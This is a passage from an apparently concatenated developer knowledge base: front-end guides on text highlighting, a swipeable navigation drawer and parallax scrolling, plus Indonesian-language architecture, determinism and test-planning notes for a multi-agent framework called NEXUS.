You can detect support before using the API:

```javascript
if (CSS.highlights) {
  // CSS Custom Highlight API is supported.
} else {
  // Fallback: wrap matches in <mark> elements.
}
```

If the highlight is critical for the user experience, fall back to wrapping matched text in `<mark>` elements. This modifies the DOM, so take care to preserve event listeners and avoid breaking the document structure.

```javascript
if (!CSS.highlights) {
  // Walk text nodes and wrap matches in <mark>, preserving structure.
  const walker = document.createTreeWalker(article, NodeFilter.SHOW_TEXT);
  const nodes = [];
  for (let n = walker.nextNode(); n; n = walker.nextNode()) nodes.push(n);

  const term = searchTerm.toLowerCase();
  for (const textNode of nodes) {
    const text = textNode.textContent;
    let pos = text.toLowerCase().indexOf(term);
    if (pos === -1) continue;

    const frag = document.createDocumentFragment();
    let last = 0;
    while (pos !== -1) {
      frag.append(text.slice(last, pos));
      const mark = document.createElement("mark");
      // textContent assignment avoids HTML injection.
      mark.textContent = text.slice(pos, pos + term.length);
      frag.append(mark);
      last = pos + term.length;
      pos = text.toLowerCase().indexOf(term, last);
    }
    frag.append(text.slice(last));
    textNode.replaceWith(frag);
  }
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, performance]

### 📘 KNOWLEDGE: NEXUS_NAVIGATION-DRAWER.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

## Overview

A navigation drawer is a panel that slides in from the edge of the viewport over the page content, dimming everything behind it. It is opened from a trigger button and dismissed by swiping the panel off-screen, tapping the dimmed backdrop, or pressing Escape.

This guide implements the drawer as:

- A `popover="manual"` element promoted to the top layer so the panel and its `::backdrop` overlay every other element on the page, regardless of stacking context.
- A horizontally scrolling container with two CSS scroll-snap stops — one for "open", one for "closed" — so the swipe gesture is handled natively by the browser. This delivers momentum, velocity, and interruption tracking for free, with no JavaScript pointer-event code.
- A scroll-driven animation that ties the backdrop's opacity to the scroll position, so the dim fades in and out smoothly as the user drags the panel.
- An `IntersectionObserver` on the panel that detects when it has fully entered or fully left the viewport, and uses those moments to update focus, `aria-expanded`, and `inert`.

This approach is preferred over JavaScript-driven `transform` animations because the scroll mechanism gives the user direct control of the panel's position (their finger drives it, not a tween) and it much more closely matches the interaction patterns that users are accustomed to in native mobile apps.

## Implementation

### 1. Markup

The drawer is a single popover containing a horizontal scroller, which contains the visible "sheet". The trigger button lives in the page content.

```html
<!-- popover="manual" is REQUIRED. Do not use popover="auto" or "hint". -->
<div class="Drawer" id="drawer" popover="manual">
  <div class="Drawer-scroller">
    <nav class="Drawer-sheet" tabindex="-1">
      <!-- tabindex="-1" makes the sheet programmatically focusable so we
           can move focus into it when the drawer opens, without adding it
           to the natural tab order. -->
      <ul>
        <li><a href="/page-1">Page 1</a></li>
        <li><a href="/page-2">Page 2</a></li>
        <!-- ... -->
      </ul>
    </nav>
  </div>
</div>

<main>
  <header>
    <!-- aria-controls links the trigger to the drawer; aria-expanded
         reflects the current state for assistive tech. -->
    <button id="drawer-open"
            aria-label="Menu"
            aria-expanded="false"
            aria-controls="drawer">
      <!-- MANDATORY: Inline decorative SVGs MUST define aria-hidden="true" -->
      <svg aria-hidden="true" viewBox="0 0 24 24">...</svg>
    </button>
  </header>
  <!-- Page content. -->
</main>
```

### 2. Styles

#### Reset the popover and fill the viewport

The popover must cover the whole viewport so its `::backdrop` dims the entire page and the swipe surface extends edge-to-edge. The default user-agent popover styles (centered, auto-sized, bordered) get in the way and must be reset.

```css
.Drawer {
  /* min() caps the sheet width on large screens but on a phone leaves
     a 20% peek of page content visible, which is the affordance that
     tells the user they can tap outside to dismiss. */
  --drawer-width: min(20em, 80dvw);

  /* Custom property driven by the scroll-driven animation below.
     0 = drawer fully closed (transparent backdrop).
     1 = drawer fully open (visible backdrop). */
  --drawer-backdrop: 0;

  /* Reset UA popover style that would constrain the element. */
  width: auto;
  height: auto;
  background: transparent;
  border: 0;
  overflow: visible;
}

/* Style the popover's ::backdrop to achive the overlay effect and
   provide visual affordances indicating that the rest of the page is inert */
.Drawer::backdrop {
  background: #000;
  /* Use calc() to limit the opacity range so the content beneath is visible */
  opacity: calc(var(--drawer-backdrop) / 2);
}
```

#### Build the swipe surface with scroll snap

The scroller is a horizontal grid wider than the viewport: column 1 holds the sheet (width `--drawer-width`), column 2 is an empty pseudo-element spacer the width of the viewport. Snapping between the two columns is what opens and closes the drawer.

```css
.Drawer-scroller {
  position: relative;
  display: grid;
  /* Sheet on the left, full-viewport spacer on the right. The user
     scrolls between the two snap stops to open and close. */
  grid-template-columns: var(--drawer-width) 100%;

  overflow-x: scroll;
  /* Stop the swipe from chaining into the page's vertical scroll
     when the user reaches either snap edge. */
  overscroll-behavior: none;
  scrollbar-width: none;
  /* `mandatory` guarantees the drawer always settles fully open or
     fully closed — never half-open after a partial swipe. */
  scroll-snap-type: x mandatory;
}

/* Enable smooth scrolling natively, but only if the user has not
   requested reduced motion. */
@media (prefers-reduced-motion: no-preference) {
  .Drawer-scroller {
    scroll-behavior: smooth;
  }
}

/* The empty spacer that creates the "closed" snap stop. */
.Drawer-scroller::after {
  content: '';
  scroll-snap-align: end;
  /* Open the popover already scrolled to this stop (drawer off-screen),
     so the JS only needs to scroll to the open position to
     animate it in. */
  scroll-initial-target: nearest;
}

.Drawer-sheet {
  display: grid;
  grid-template-rows: auto 1fr;
  /* Use `svh` (small viewport height) — not `vh` or `dvh` — so the
     sheet height does not jump when the iOS Safari address bar
     resizes mid-swipe. */
  height: 100svh;

  background: #333;
  color: #fff;
  overflow-y: auto;
  scroll-snap-align: start;
  scrollbar-width: none;
}
```

#### Tie the backdrop opacity to the scroll position

A scroll-driven animation maps `--drawer-backdrop` from 1 (open) to 0 (closed) across the scroller's range, so the backdrop fades in and out perfectly synced with the drag.

```css
/* MANDATORY: Wrap this entire block in @supports. Browsers that don't
   support animation-timeline still parse the @keyframes and would
   apply the animation's `0%` value (--drawer-backdrop: 1) at all
   times, leaving the backdrop permanently opaque. The @supports gate
   ensures the animation is only registered where it actually works. */
@supports (animation-timeline: scroll()) {
  .Drawer {
    /* timeline-scope lets .Drawer reference a scroll-timeline that
       is defined on its descendant (the scroller). Without this, the
       timeline name is not visible to the .Drawer element. */
    timeline-scope: --drawer-fade;
    animation: fade-drawer-backdrop linear both;
    animation-timeline: --drawer-fade;
  }

  .Drawer-scroller {
    /* The horizontal scroll position of this element drives the
       timeline named `--drawer-fade`. */
    scroll-timeline: --drawer-fade x;
  }

  /* @property is REQUIRED. Without registering --drawer-backdrop with
     a `<number>` syntax, the browser treats it as a string and cannot
     interpolate it — the backdrop would jump from 0 to 1 with no
     fade. */
  @property --drawer-backdrop {
    syntax: '<number>';
    inherits: true;
    initial-value: 0;
  }

  @keyframes fade-drawer-backdrop {
    /* Scroll position 0 = drawer fully open = backdrop visible. */
    0% { --drawer-backdrop: 1 }
    /* Scroll position 100% = drawer fully closed = backdrop hidden. */
    100% { --drawer-backdrop: 0 }
  }
}
```

### 3. Open and close the drawer

Opening is two steps: promote the popover to the top layer, then scroll the sheet into view. Closing is one step: scroll back to the spacer; an observer (step 4) hides the popover once the sheet is fully off-screen.

```js
const drawer = document.getElementById('drawer');
const openBtn = document.getElementById('drawer-open');
const scroller = drawer.querySelector('.Drawer-scroller');
const sheet = drawer.querySelector('.Drawer-sheet');

function openDrawer() {
  // Show the popover first so the element is in the top layer before
  // we trigger any scrolling. `scroll-initial-target` (set on the
  // ::after spacer) places the initial scroll position at the closed
  // stop, so the drawer enters the top layer already off-screen.
  drawer.showPopover();

  // Scroll the sheet into view. The `behavior: 'auto'` option defers
  // to the CSS `scroll-behavior` property, which will be smooth unless
  // the user prefers reduced motion. Snap takes over at the end and
  // locks the drawer fully open.
  scroller.scrollTo({left: 0, behavior: 'auto'});
}

function closeDrawer() {
  // Scroll back to the spacer. Do NOT call hidePopover() here —
  // doing so would remove the element from the top layer mid-animation
  // and the close animation would not be visible. The
  // IntersectionObserver in step 4 hides the popover once the sheet
  // has actually left the viewport.
  scroller.scrollTo({left: scroller.offsetWidth, behavior: 'auto'});
}
```

### 4. Detect open and closed state

Use an `IntersectionObserver` on the sheet — not the scroll position — as the source of truth for the drawer's state. The observer fires regardless of how the sheet moved (user swipe, programmatic scroll, snap settle), so all dismissal paths converge in the same callback.

```js
function onDrawerOpened() {
  // Mark the rest of the page inert so keyboard and screen-reader
  // users cannot tab into content hidden behind the drawer.
  document.querySelector('main').inert = true;
  openBtn.setAttribute('aria-expanded', 'true');
  // Move focus into the drawer for keyboard users.
  sheet.focus();
}

function onDrawerClosed() {
  // Hide the popover only after the close animation completes,
  // so the slide-out is visible to the user.
  drawer.hidePopover();
  document.querySelector('main').inert = false;
  openBtn.setAttribute('aria-expanded', 'false');
}

// Treat "any pixel of the sheet visible inside the popover root" as
// "open enough to count as not closed". This threshold is intentionally
// tiny so the closed callback only fires once the sheet is truly gone.
const visibleThreshold = 1 / window.innerWidth;

const observer = new IntersectionObserver(
  (entries) => {
    // During programmatic scrolling the observer can deliver multiple
    // entries in one batch. Only the most recent describes the
    // current state; earlier entries are intermediate positions.
    const entry = entries.at(-1);
    if (entry.intersectionRatio < visibleThreshold) onDrawerClosed();
    if (entry.intersectionRatio === 1) onDrawerOpened();
  },
  // root: drawer makes the popover element the intersection root,
  // so the ratio reflects the sheet's visibility within the popover
  // (i.e. how much of it has been swiped on-screen).
  {root: drawer, threshold: [visibleThreshold, 1]},
);
observer.observe(sheet);
```

### 5. Wire up the trigger and dismissal handlers

```js
// Open trigger.
openBtn.addEventListener('click', openDrawer);

// Light-dismiss: a tap on the dimmed area (anywhere inside the
// popover but outside the sheet) closes the drawer. We implement
// this manually because popover="manual" disables the browser's
// built-in light-dismiss (which would also fire mid-swipe — see step 1).
drawer.addEventListener('click', (event) => {
  if (!sheet.contains(event.target)) closeDrawer();
});

// Escape key. Listen on document because focus may be inside the
// drawer when the user presses Escape.
document.addEventListener('keydown', (event) => {
  if (event.key === 'Escape') closeDrawer();
});
```

### Fallback strategies

Baseline status for Popover: Newly available. It's been Baseline since 2025-01-27.
Supported by: Chrome 116 (Aug 2023), Edge 116 (Aug 2023), Firefox 125 (Apr 2024), Safari 17 (Sep 2023), and Safari iOS 18.3 (Jan 2025).

The drawer's core mechanics — scroll snap, `IntersectionObserver`, and `inert` — are all Baseline Widely available and required for the component to function. The popover API, the scroll-driven animation that fades the backdrop, and `scroll-initial-target` are progressive enhancements with simple fallbacks that can be easily implemented if wide browser support is required.

#### Backdrop fade fallback (no `animation-timeline` support):

Scroll-driven animations has limited availability.
Supported by: Chrome 115 (Jul 2023), Edge 115 (Jul 2023), and Safari 26 (Sep 2025).
Unsupported in: Firefox.

Detect with `CSS.supports('animation-timeline: scroll()')` and write `--drawer-backdrop` from a `scroll` event listener if not supported. The CSS `@supports` block in step 2 ensures the keyframes never apply in unsupported browsers, so the JavaScript value is the only writer.

```js
if (!CSS.supports('animation-timeline: scroll()')) {
  scroller.addEventListener('scroll', () => {
    // Same mapping as the @keyframes: 0 scroll = 1 (open),
    // sheet-width scroll = 0 (closed).
    const ratio = 1 - scroller.scrollLeft / sheet.offsetWidth;
    drawer.style.setProperty('--drawer-backdrop', ratio);
  });
}
```

#### Initial scroll position fallback (no `scroll-initial-target` support):

scroll-initial-target has limited availability.
Supported by: Chrome 133 (Feb 2025) and Edge 133 (Feb 2025).
Unsupported in: Firefox and Safari.

Detect with `CSS.supports('scroll-initial-target', 'nearest')` and inside `openDrawer()`, jump-scroll the scroller to the closed position immediately after `showPopover()`. Without this, the drawer would appear instantly in the open position with no slide-in animation.

```js
async function openDrawer() {
  drawer.showPopover();

  if (!CSS.supports('scroll-initial-target', 'nearest')) {
    // Jump-scroll to the closed stop so the scroll below
    // animates the drawer in from off-screen.
    scroller.scrollTo({left: scroller.offsetWidth, behavior: 'instant'});
    // Wait two animation frames for the jump-scroll to commit.
    // A single rAF is not enough — the second `scrollTo` would
    // cancel the first before the browser has a chance to apply it.
    await new Promise((r) =>
      requestAnimationFrame(() => requestAnimationFrame(r))
    );
  }

  scroller.scrollTo({left: 0, behavior: 'auto'});
}
```

#### `@property` fallback (no registered custom properties):

Baseline status for Registered custom properties: Newly available. It's been Baseline since 2024-07-09.
Supported by: Chrome 85 (Aug 2020), Edge 85 (Aug 2020), Firefox 128 (Jul 2024), and Safari 16.4 (Mar 2023).

`@property` is only needed because the scroll-driven animation interpolates `--drawer-backdrop` between keyframes — without registration, the property would be treated as a string and would jump between 0 and 1 with no fade. If the scroll-driven animation fallback above is in place, that JavaScript writes a fresh numeric string to `--drawer-backdrop` on every scroll frame and never interpolates, so no seprarate `@property` fallback is needed since all browsers that support scroll-driven animations also support `@property`.


#### Popover API fallback (no `popover` attribute support):

Baseline status for the api.HTMLElement.showPopover capability: Newly available. It's been Baseline since 2024-04-16.
Supported by: Chrome 114 (May 2023), Edge 114 (Jun 2023), Firefox 125 (Apr 2024), and Safari 17 (Sep 2023).

Because this component uses `popover="manual"` and implements dismissal entirely from JavaScript, it does not depend on the popover API's defining behaviors — light-dismiss, the `popovertarget` attribute, top-layer-managed Escape handling, or focus management. The only popover features it actually uses are top-layer promotion (via `showPopover()`) and the `::backdrop` pseudo-element, which have been Baseline since April 2024.

If wider browser support is needed, do not branch on feature detection — simply do not use popover at all. Drop the `popover="manual"` attribute, replace top-layer promotion with `position: fixed` and a high `z-index`, replace `::backdrop` with a sibling element styled identically (using the same `--drawer-backdrop` custom property), and toggle visibility from a class instead of `showPopover()`/`hidePopover()`. The rest of the component (scroll snap, the scroll-driven backdrop animation, the `IntersectionObserver`, and the dismissal handlers) is unchanged.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, performance, vcs, api]

### 📘 KNOWLEDGE: NEXUS_NEXUS ARCHITECTURE MULTI AGENT.MD

# NEXUS Architecture Roadmap
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Phase Focus: Multi-Agent Stabilization

> Current Classification:
> **Semantic Modular Multi-Agent Framework**

---

# 1. Objective

Fokus utama NEXUS saat ini adalah:

- menstabilkan komunikasi antar agent
- memastikan konsistensi memory
- membangun orchestration yang modular
- membuat capability system yang scalable
- mengurangi coupling antar subsystem

Target fase ini **BUKAN AGI** dan **BUKAN full autonomy**.

Target utama:

```text
Reliable Multi-Agent Cognitive Infrastructure
```

---

# 2. Current System Boundary

## Included Scope

NEXUS saat ini mencakup:

- semantic knowledge processing
- multi-agent orchestration
- dynamic plugin execution
- knowledge distribution pipeline
- modular scanner ecosystem
- workflow intelligence

---

## Excluded Scope

NEXUS saat ini BELUM mencakup:

- AGI
- self-awareness
- autonomous goal creation
- recursive architecture redesign
- independent cognition
- fully autonomous runtime

---

# 3. Architectural Position



---

# 4. Core Stabilization Priorities

## 4.1 Agent Role Isolation

Setiap agent wajib memiliki:

- single responsibility
- clear execution boundary
- predictable input/output
- minimal side effects

---

## Recommended Structure

```text
agents/
│
├── crawler/
├── memory/
├── distribution/
├── forge/
├── scanners/
└── orchestration/
```

---

## Anti-Pattern

Hindari:

```text
1 agent mengerjakan semuanya
```

atau:

```text
shared mutable logic antar agent
```

---

# 5. Standardized Agent Protocol

Semua agent wajib menggunakan protocol yang sama.

## Recommended Protocol

```json
{
  "agent": "memory_pipeline",
  "task_id": "UUID",
  "input": {},
  "context": {},
  "priority": "normal",
  "timestamp": "",
  "status": "pending"
}
```

---

## Required Rules

### Every Agent Must:

- validate input
- return structured output
- log execution result
- expose error states
- avoid direct filesystem mutation outside scope

---

# 6. Orchestration Layer

## Current Recommendation

Pisahkan orchestration dari logic agent.

```text
GOOD:
orchestrator -> agents

BAD:
agents -> control agents directly
```

---

## Recommended Architecture



---

# 7. Memory Consistency

## Critical Rule

Semantic memory wajib menjadi:

```text
single source of truth
```

---

## Recommended Layers

```text
memory/
│
├── raw/
├── normalized/
├── semantic/
├── distilled/
└── operational/
```

---

## Required Stability Features

### Must Have:

- checksum validation
- versioning
- rollback capability
- conflict detection
- tag normalization

---

# 8. Plugin System Stabilization

## Recommended Plugin Boundary

Setiap scanner/plugin wajib memiliki:

```text
manifest
execution contract
permission scope
output schema
```

---

## Example

```json
{
  "name": "security_scanner",
  "version": "1.0",
  "permissions": ["read_logs"],
  "entry": "scanner.js"
}
```

---

# 9. Dynamic Scanner Safety

## Required Protection

Dynamic execution WAJIB memiliki:

- timeout
- execution isolation
- crash protection
- retry limits
- logging

---

## Recommended

Gunakan:

```text
sandbox execution layer
```

untuk scanner hasil forging.

---

# 10. Knowledge-to-Code Boundary

## IMPORTANT

Machine Forging TIDAK BOLEH:

- overwrite core engine
- mutate orchestration layer
- modify memory protocols
- self-register unrestricted permissions

---

## Safe Boundary

Forging hanya boleh:

```text
generate isolated capability modules
```

---

# 11. Logging & Observability

## Mandatory

Semua subsystem wajib memiliki:

- execution logs
- error logs
- task tracing
- performance metrics

---

## Recommended Structure

```text
logs/
│
├── agents/
├── orchestration/
├── scanners/
├── memory/
└── forge/
```

---

# 12. Stability Before Autonomy

## Current Priority

Fokus utama saat ini:

```text
stability > intelligence
```

Karena:

- unstable agents cannot evolve
- unstable orchestration creates chaos
- unstable memory corrupts cognition

---

# 13. Recommended Technical Direction

## Short-Term

### Keep:

- rapid iteration
- modular architecture
- semantic workflows

### Avoid:

- premature AGI claims
- uncontrolled self-modification
- overcomplex autonomy loops

---

# 14. Recommended Tech Stack

## Suggested Hybrid Model

### Core Runtime

- C++
- Rust
- Go

### AI Layer

- Python

### Memory Layer

- SQLite
- PostgreSQL
- Vector DB
- Graph DB

---

# 15. Long-Term Evolution Path



---

# 16. Final Positioning

## Accurate Technical Description

```text
NEXUS is a modular semantic multi-agent framework
focused on dynamic knowledge orchestration,
capability distribution, and scalable cognitive workflows.
```

---

# 17. Strategic Principle

```text
Do not optimize for AGI.
Optimize for stable orchestration first.
```

Karena:

- orchestration menghasilkan scalability
- stability menghasilkan survivability
- modularity menghasilkan evolvability
- observability menghasilkan maintainability

Tanpa itu, autonomous system akan menjadi tidak terkendali.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, performance, vcs, api]

### 📘 KNOWLEDGE: NEXUS_NEXUS INTERNAL CORE — HARD BOUNDARY & SYSTEM CONSTRAINT.MD

# NEXUS INTERNAL CORE — HARD BOUNDARY & SYSTEM CONSTRAINT
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## ⚠️ PURPOSE (INTERNAL CORE ONLY)

NEXUS Internal Core adalah:

> **Deterministic Knowledge Operating System berbasis dokumentasi**

Fungsi utamanya:

- memproses pengetahuan dari dokumentasi
- menjaga konsistensi struktur pengetahuan
- menjalankan pipeline evolusi pengetahuan secara terkendali

**Bukan:**

- AI system
- reasoning engine bebas
- self-learning system
- autonomous decision maker

---

## 🔒 CORE PHILOSOPHY (WAJIB DIKUNCI)

1. **Deterministic over Adaptive**
2. **Structure over Intelligence**
3. **Explicit Rules over Implicit Behavior**
4. **Controlled Evolution over Self-Evolution**
5. **State Machine over Dynamic Flow**

---

## 🧱 SYSTEM MODEL (WAJIB)

Internal Core HARUS direpresentasikan sebagai:

> **State-Driven Knowledge Pipeline Engine**

Dengan lifecycle tetap:

```text
INIT → AUDIT → PLAN → EXECUTE → VERIFY → RECORD → DISTILL
```

❗ Urutan ini **tidak boleh diubah secara dinamis**

---

## 🔒 HARD BOUNDARY (PAGAR INTERNAL)

### 1. NO AI / NO PROBABILISTIC SYSTEM

Internal Core:

- ❌ Tidak boleh menggunakan LLM
- ❌ Tidak boleh menggunakan ML
- ❌ Tidak boleh ada probabilistic decision

Semua keputusan:

> ✔ Rule-based
> ✔ Fully predictable
> ✔ Reproducible

---

### 2. NO SELF-EVOLUTION

Walaupun ada:

- `Machinist`
- `Update Engine`

Dibatasi keras:

❌ Dilarang:

- mengubah dirinya sendiri tanpa rule eksplisit
- membuat logic baru secara otomatis
- menambah pipeline stage baru secara dinamis

✔ Diperbolehkan:

- modifikasi berbasis rule statis
- injeksi terkontrol dengan validasi ketat

---

### 3. NO UNSTRUCTURED DATA FLOW

Semua data HARUS:

- memiliki struktur formal
- tervalidasi oleh kontrak

❌ Dilarang:

- manipulasi string bebas
- parsing tanpa schema
- operasi berbasis asumsi

---

### 4. SINGLE SOURCE OF TRUTH: INTERNAL STATE

Bukan file system.

Internal Core HARUS:

> bekerja di atas **in-memory representation**

File system hanya:

- input awal
- output akhir

❌ Dilarang:

- menjadikan file sebagai state utama
- side-effect antar stage

---

### 5. STRICT STAGE ISOLATION

Setiap stage:

- hanya menerima input
- menghasilkan output

❌ Dilarang:

- akses langsung ke stage lain
- modifikasi global state tanpa kontrol

---

## 🧠 DATA MODEL (WAJIB ADA)

Internal Core HARUS memiliki representasi formal:

```cpp
struct NexusState {
    DocumentAST ast;
    KnowledgeGraph knowledge;
    ExecutionPlan plan;
    ValidationReport report;
}
```

Semua stage hanya boleh memproses:

> **NexusState**

---

## 🔄 PIPELINE CONTRACT

Setiap stage wajib mengikuti kontrak:

```cpp
StageResult process(const NexusState& input);
```

Dengan aturan:

- tidak boleh side-effect
- tidak boleh I/O langsung
- tidak boleh skip validasi

---

## ⚙️ EXECUTION RULE

Pipeline berjalan:

```text
State(n) → Process → State(n+1)
```

❗ Tidak boleh:

- lompat stage
- eksekusi paralel tanpa kontrol deterministik
- branching liar

---

## 🧨 COLLISION LOGIC (WAJIB TERKONTROL)

Format wajib:

```text
IF {Existing} ELSE {New}
```

Aturan:

- tidak boleh overwrite langsung
- tidak boleh merge tanpa rule
- harus bisa dilacak (traceable)

---

## 🧱 MEMORY SYSTEM RULE

### HUB / Knowledge:

- harus immutable per stage
- perubahan hanya melalui pipeline

### Archive:

- write-only
- tidak boleh jadi sumber logika aktif

---

## 🚫 ANTI-SCOPE INTERNAL

Jika sistem mulai mengarah ke:

- adaptive learning
- heuristic decision making
- context guessing
- self-modifying logic tanpa kontrol

→ **HARUS DIHENTIKAN**

---

## 🧭 ENGINE CONSTRAINT

### NexusEngine:

- hanya orchestrator
- tidak boleh mengandung business logic berat

### Module:

- harus pure function oriented
- reusable
- testable

---

## 🧨 FAILURE CONDITION

Internal Core dianggap gagal jika:

- hasil tidak deterministik
- pipeline tidak bisa direplay dengan hasil sama
- state tidak bisa direkonstruksi
- terjadi side-effect antar stage
- logika tidak bisa dijelaskan secara eksplisit

---

## 🏁 FINAL STATE (INTERNAL)

Internal Core dianggap selesai jika:

- pipeline lifecycle stabil
- semua stage deterministic
- state fully traceable
- tidak ada dependency eksternal selain input/output

---

## 🔚 FINAL RULE

> Jika sebuah perubahan menambah “kecerdasan” tapi mengurangi determinisme,
> maka perubahan tersebut **HARUS DITOLAK**.

---


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, vcs]

### 📘 KNOWLEDGE: NEXUS_NEXUS TESTING TDD.MD

# NEXUS — TDD Project Modules (Project-Based Learning)
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Focus: TALL Stack + Multi-Agent Behavior

---

# 1. Project: Intelligent CRUD Auditor

## Objective

Agent mampu:

- membaca struktur Laravel (Model, Migration, Controller)
- menguji CRUD secara otomatis
- mendeteksi inkonsistensi

## Scope

- Laravel routes
- Controller logic
- Database interaction

## Success Criteria

```text
CRUD berjalan benar
validasi terdeteksi
error dilaporkan + dijelaskan
```

---

# 2. Project: Livewire Reactive Validator

## Objective

Menguji apakah:

- state Livewire sinkron dengan backend
- perubahan UI benar-benar reactive

## Scenario

- input form
- update state
- observe DOM

## Success Criteria

```text
tidak ada desync
tidak perlu reload
state konsisten
```

---

# 3. Project: Alpine Behavior Simulator

## Objective

Agent memahami interaksi frontend:

- toggle state
- conditional rendering
- event handling

## Success Criteria

```text
event berjalan benar
state berubah sesuai logika
tidak terjadi UI inconsistency
```

---

# 4. Project: Tailwind Layout Integrity Checker

## Objective

Mendeteksi:

- broken layout
- conflicting classes
- responsiveness issue

## Success Criteria

```text
layout stabil
class tidak konflik
UI tetap konsisten di berbagai kondisi
```

---

# 5. Project: Full Stack Interaction Test (TALL Flow)

## Objective

Uji alur lengkap:

```text
UI → Alpine → Livewire → Laravel → DB → kembali ke UI
```

## Success Criteria

```text
tidak ada break di chain
data sinkron end-to-end
```

---

# 6. Project: Multi-Agent Debugging System

## Objective

Beberapa agent bekerja sama:

```text
Analyzer → Diagnoser → Fixer
```

## Scenario

- inject bug
- agent harus:
  - menemukan
  - menjelaskan
  - memperbaiki

## Success Criteria

```text
bug ditemukan
penyebab dijelaskan
fix valid
```

---

# 7. Project: Failure Recovery Engine

## Objective

Uji resilience sistem

## Scenario

- API error
- DB failure
- Livewire crash

## Success Criteria

```text
system tidak collapse
agent retry / fallback
error terklasifikasi
```

---

# 8. Project: Memory Consistency Test

## Objective

Pastikan:

- knowledge tidak konflik
- memory tidak corrupt

## Scenario

- simpan data
- update
- retrieve ulang

## Success Criteria

```text
data konsisten
tidak ada semantic drift
```

---

# 9. Project: Adaptive Strategy Agent

## Objective

Agent harus:

- mencoba solusi
- gagal
- mencoba pendekatan baru

## Success Criteria

```text
tidak mengulang solusi sama
ada perubahan strategi
```

---

# 10. Project: Anti-Prompt-Replay Validation

## Objective

Menguji bahwa agent:

- tidak sekadar mengulang
- benar-benar reasoning

## Scenario

- ubah sedikit input
- jalankan ulang

## Success Criteria

```text
output berbeda secara logis
bukan copy sebelumnya
```

---

# 11. Project: Autonomous Trigger System

## Objective

System bisa berjalan tanpa manual trigger

## Scenario

- memory anomaly
- performance drop

## Success Criteria

```text
agent aktif otomatis
task dijalankan tanpa user
```

---

# 12. Project: Agent Collaboration Stress Test

## Objective

Uji banyak agent sekaligus

## Scenario

- parallel execution
- shared resource

## Success Criteria

```text
tidak ada race condition
tidak corrupt memory
```

---

# 13. Project: Code Generation Safety Test (Forge)

## Objective

Uji fitur "Machine Forging"

## Scenario

- generate scanner/tool baru

## Success Criteria

```text
code valid
tidak merusak core
terisolasi
```

---

# 14. Project: Governance Enforcement Test

## Objective

Pastikan rule system jalan

## Scenario

- agent mencoba aksi terlarang

## Success Criteria

```text
action ditolak
log tercatat
system tetap aman
```

---

# 15. Project: End-to-End Intelligent Audit System

## Objective (Final Boss)

Agent melakukan:

```text
scan project
detect issue
prioritize
fix
verify ulang
```

## Success Criteria

```text
issue ditemukan
fix berhasil
tidak muncul error baru
```

---

# 16. Struktur PBL (Untuk Kamu sebagai Pendidik)

Setiap project harus punya:

## 1. Problem Statement

## 2. Agent Roles

## 3. Input Scenario

## 4. Expected Behavior

## 5. Metrics

## 6. Documentation (VERY IMPORTANT)

## 7. Reflection (VERY IMPORTANT)

---

# 17. Final Principle

```text
Test bukan untuk membuktikan system bekerja.

Test untuk membuktikan system berpikir.
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, tdd, api]

### 📘 KNOWLEDGE: NEXUS_PARALLAX-SCROLL-EFFECTS.MD

# Build a Parallax Effect on Scroll
> **VERSION**: v1 | **Last Updated**: 26/05/2026


A parallax effect on scroll is a visual technique where different layers of content move at varying speeds as the user scrolls down a page. This creates an illusion of depth, with foreground elements appearing to move faster than the background elements, resulting in an engaging and immersive browsing experience. This effect is best achieved using CSS Scroll-Driven Animations, which allow you to link animations to the scroll position of a container.

## How to implement

Here’s how to create a basic parallax effect:

1.  **Create a wrapper element:** This element simply groups all the layers of the parallax effect together. It is not the scrollable element, so its overflow should be clipped. Also give it a `height` that matches the height of one of the layers of the parallax effect.

    ```html
    <div class="wrapper">
      …
    </div>
    ```

    ```css
    .wrapper {
      overflow: clip;
      height: 100vh; /* Height of one of the layers of the parallax */
    }
    ```

2.  **Declare the layers:** Inside the wrapper, add the individual layers that will move at different speeds.

    ```html
    <div class="wrapper">
      <div class="layer">LAYER 0</div>
      <div class="layer">LAYER 1</div>
